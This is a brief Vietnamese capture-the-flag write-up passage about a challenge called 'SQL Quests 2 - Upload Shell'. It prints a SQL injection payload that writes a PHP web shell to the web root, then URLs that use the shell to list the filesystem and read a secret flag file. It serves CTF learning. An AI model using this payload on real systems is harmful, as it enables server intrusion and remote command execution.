 <img src="img/flag1.png">

(Có xíu nhầm lẫn `EFIENS` chứ không phải `CSACTF`)

## SQL Quests 2 - Upload Shell

Tìm flag thứ 2 nào!


Vì từ ver 1 đã có thể thấy server bị lỗi SQL injection, nên thử upload shell thông qua lỗi này!

`1" union select null,null,null,"<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php' -- `

--> Thành Công!!

#### Shell

- `http://server.com/shell.php?cmd=ls /`
- `http://server.com/shell.php?cmd=cat /sup3r_s3cr3t.txt`
--> Well done!! FLAGGGGG!

<img src="img/flag2.png">
